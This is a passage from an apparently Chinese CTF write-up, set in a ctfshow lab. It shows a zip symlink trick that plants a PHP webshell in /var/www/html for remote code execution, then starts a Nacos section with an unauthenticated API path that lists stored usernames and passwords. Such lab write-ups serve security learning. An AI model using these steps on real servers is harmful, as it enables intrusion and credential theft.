 > `zip --symlinks`，是在 zip 压缩文件中，包含符号链接本身，而不是它们指向的实际文件或目录，也就是说当解压缩这个 zip 文件，将得到符号链接，而不是它们指向的实际文件。

接着构造第二个压缩包 2.zip

创建一个 link 目录 (因为上一个压缩包里边目录就是 link)，在 link 目录下写一个 shell.php 文件，文件中写入木马文件，这里先写入 phpinfo() 进行测试

```bash
┌──(root㉿kali)-[~/桌面]
└─# rm link
┌──(root㉿kali)-[~/桌面]
└─# mkdir link
┌──(root㉿kali)-[~/桌面]
└─# cd link 
┌──(root㉿kali)-[~/桌面/link]
└─# echo "<?php phpinfo();" > shell.php
┌──(root㉿kali)-[~/桌面/link]
└─# cd ../
┌──(root㉿kali)-[~/桌面]
└─# zip -r 2.zip link
```

我们将 1.zip 和 2.zip 依次 上传，压缩包会被解压到 tmp 目录下，但是当我们上传第二个压缩包时会覆盖上一个 link 目录，但是 link 目录软链接指向`/var/www/html`解压的时候会把`shell.php`放在`/var/www/html`下，此时我们就达到了 getsehll 的目的。

接着直接访问根目录下的 shell.php，即可直接通过 system 命令实现 RCE

- - -

## Nacos 漏洞

**一、前置知识**

**1.1 Spring Cloud Gateway**

Spring Cloud Gateway 是一个基于 Spring Framework 的轻量级 API 网关服务，它提供了一种简单而灵活的方式来构建和管理微服务架构中的路由、负载均衡、安全性和监控等功能。简单理解为一个具有丰富功能的微服务网关，它可以拦截客户端的请求，然后根据`predicates`（断言）来为该请求分配合适的后端应用。

例如当用户请求`http://192.168.1.1:80/app`时，网关可以配置将其转发到 APP 应用服务器`http://192.168.2.2:8080/app`上，又或者使用`Filter`拦截器，为请求增加某些内容或者为服务器响应增加某些内容

**1.2 `nacos`**

`Nacos`可以理解为一个统一管理的配置注册中心，配置了`nacos`后，项目中的配置文件便可以通过`Nacos`来动态修改。应用通过注册到`` `Nacos ``中，然后绑定组和`dataID`的形式，来绑定`Nacos`上创建的动态配置文件，当`Nacos`上所绑定的配置文件发布了新版时，应用将从`Nacos`中自动同步新的配置，大大增加了灵活性

**二、Nacos 漏洞利用**

**1、获取已有的用户列表的账号和密码**

在路径后面加上`/nacos/v1/auth/users?pageNo=1&pageSize=9`可以获取到已有的用户名和密码

> 本次复现的漏洞环境是 ctfshow 中的，所以路径可能有些不一样

[![](assets/1700442594-6fb89733344fc854812cd3e72226f487.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155257-7d2472c0-85e7-1.png)
